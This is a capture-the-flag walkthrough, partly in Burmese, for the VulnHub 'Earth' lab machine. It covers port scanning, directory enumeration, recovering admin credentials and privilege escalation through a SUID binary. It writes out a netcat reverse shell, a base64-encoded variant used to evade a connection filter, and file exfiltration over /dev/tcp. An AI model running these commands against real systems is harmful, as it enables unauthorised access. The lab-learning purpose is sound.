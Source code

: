 ```yaml
---
{"tags":["getfullshell","vulnhub","walkthrought"],"dg-publish":true,"Auther":"y3kh","permalink":"/exploit-from-kali/earth-vulnhub/","dgPassFrontmatter":true,"noteIcon":""}
---
```


sudo nmap -sC -sV -oN earth 192.168.90.2                                                                                                                            
Nmap scan report for 192.168.90.2
Host is up (0.0015s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.6 (protocol 2.0)
| ssh-hostkey: 
|   256 5b:2c:3f:dc:8b:76:e9:21:7b:d0:56:24:df:be:e9:a8 (ECDSA)
|_  256 b0:3c:72:3b:72:21:26:ce:3a:84:e8:41:ec:c8:f8:41 (ED25519)
80/tcp  open  http     Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9)
|_http-server-header: Apache/2.4.51 (Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9
|_http-title: Bad Request (400)
443/tcp open  ssl/http Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9)
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-title: Bad Request (400)
| ssl-cert: Subject: commonName=earth.local/stateOrProvinceName=Space
| Subject Alternative Name: DNS:earth.local, DNS:terratest.earth.local
| Not valid before: 2021-10-12T23:26:31
|_Not valid after:  2031-10-10T23:26:31
|_http-server-header: Apache/2.4.51 (Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9
```
sudo nano /etc/hosts
```
##### add this line
192.168.90.2  earth.local  terratest.earth.local
> mozilla > earth.local > sent message > encript code တစ်ခု ကျလာလိမ့်မယ်
>  ဥပမာ : 050c53070e470401097e79
```
gobuster dir -u http://earth.local/ -w /usr/share/wordlists/dirb/common.txt 
```

	  starting gobuster in directory enumeration mode
	/admin                (Status: 301) [Size: 0] [--> /admin/]
	/cgi-bin/             (Status: 403) [Size: 199]
	Progress: 4614 / 4615 (99.98%)
	Finished

earth.local/admin
https://terratest.earth.local/
> try view page source nothing found
```
gobuster dir -u https://terratest.earth.local/ -k -w /usr/share/wordlists/dirb/common.txt
```
*https ဖြစ်လို့ -k သုံးရတယ်*
/index.html           (Status: 200) [Size: 26]
/robots.txt            (Status: 200) [Size: 26]

>mozilla
>https://terratest.earth.local/testingnotes.txt
>https://terratest.earth.local/testdata.txt
>earth.localhost
*cyberchief use*
![earth-cyberchief.png|400](/img/user/Images%20All/earth-cyberchief.png)

user : terra
pass : earthclimatechangebad4humans
*run command*
whoami
ls /var/earth_web 
cat /var/earth_web/user_flag.txt
**flag : [user_flag_3353b67d6437f07ba7d34afd7d2fc27d] 

---
### rever shell simple method 
```
host machine  nc -lvnp 4444
target machine မှာ
nc -e /bin/bash 192.168.200.5 4444
**it will not woking coz 
Remote connections are forbidden
use encode version
reverse shell online base 64 change ပါ မယ် 
echo 'nc -e /bin/bash 192.168.200.5 4444' | base64
bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMjAwLjcgNDQ0NAo
target machine မှာ ပြန်ပြီး ဒီဟာကို ရိုက်မယ်
echo 'bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMjAwLjcgNDQ0NAo' | base64 -d  | bash


```


```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
export TERM=xterm-256color
alias ll='ls -lsaht --color=auto'
Ctrl + Z [Background Process]
stty raw -echo ; fg ; reset
stty columns 200 rows 200
```
### privilege Escalation

find / -perm -u=s 2>/dev/null
file /usr/bin/reset_root
nc -lvnp 3333 > reset_root
cat /usr/bin/reset_root > /dev/tcp/192.168.200.5/3333
apt install ltrace 
ltrace ./reset_root
touch kHgTFI5G
touch Zw7bV9U5
touch kcM0Wewe
reset_root
su root
password : Earth
flag : root_flag_b0da9554d29db2117b02aa8b66ec492e




<iframe width="1280" height="720" src="https://www.youtube.com/embed/e9de7AK0i2s?si=A1mMNAb9oeidOksa" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>
